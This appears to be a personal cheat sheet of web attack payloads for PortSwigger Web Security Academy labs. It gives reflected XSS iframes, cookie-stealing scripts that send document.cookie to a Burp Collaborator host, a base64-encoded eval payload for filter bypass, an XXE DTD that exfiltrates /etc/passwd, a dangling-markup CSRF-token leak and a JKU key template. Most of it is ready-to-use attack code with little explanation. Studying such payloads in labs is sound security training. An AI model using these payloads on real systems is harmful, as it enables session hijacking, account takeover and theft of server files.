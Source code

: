 Simple Reflected XSS in iFrame:

`<iframe src="https://<VICTIM_SITE>.web-security-academy.net/?find=%22-alert(1)}//">`

---

Steal cookie:
- can be used in xss, web cache poisoning 

```JavaScript
<script>
fetch('https://<YOUR_BURP_COLLAB>.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Oneliner:
`<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{method: 'POST',mode: 'no-cors',body:document.cookie});</script>`

Or

```js
var i = new Image();i.src="//<YOUR_COLLAB_ID>.burpcollaborator.net?q="+document.cookie;document.body.appendChild(i);
```

Above in iframe:
```html
<iframe src="https://<LAB_ID>.web-security-academy.net/?find=%22-var i = new Image();i.src="//<YOUR_COLLAB_ID>.burpcollaborator.net?q="+document.cookie;document.body.appendChild(i);">
```

B64 encode the js and include in iframe for character restriction bypass:

```html
<iframe src="https://<LAB_ID>.web-security-academy.net/?find=test%22-eval(atob('dmFyIGkgPSBuZXcgSW1hZ2UoKTtpLnNyYz0iLy9iZ3ZueTd4N3JiZ3p0c3RmaGV1czlrZDB4cjNtcmIuYnVycGNvbGxhYm9yYXRvci5uZXQ/cT0iK2RvY3VtZW50LmNvb2tpZTtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGkpOw=='))//">
```

---

XXE dtd file:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://<YOUR_BURP_COLLAB>.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

Access in app by finding an xxe vuln and using:
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://<YOUR_EXPLOIT_SERVER>.web-security-academy.net/test.dtd"> %xxe;]>
```

---

Script used in "*Reflected XSS protected by CSP, with dangling markup attack*" to get the victim's CSRF token

```js
<script>
location='https://<VICTIM_SITE>.web-security-academy.net/email?email=%22%3E%3Ctable%20background=%27//<YOUR_BURP_COLLAB>.burpcollaborator.net?';
</script> 
```

Take that csrf token and put it into a csrf generated request for changing email. Put that code into the exploit server and send to victim. 

---
JKU 
```json
{ "keys": [ { "kty": "RSA", "e": "AQAB", "kid": "<your-kid>", "n": "<your-n>" } ] }
```
---

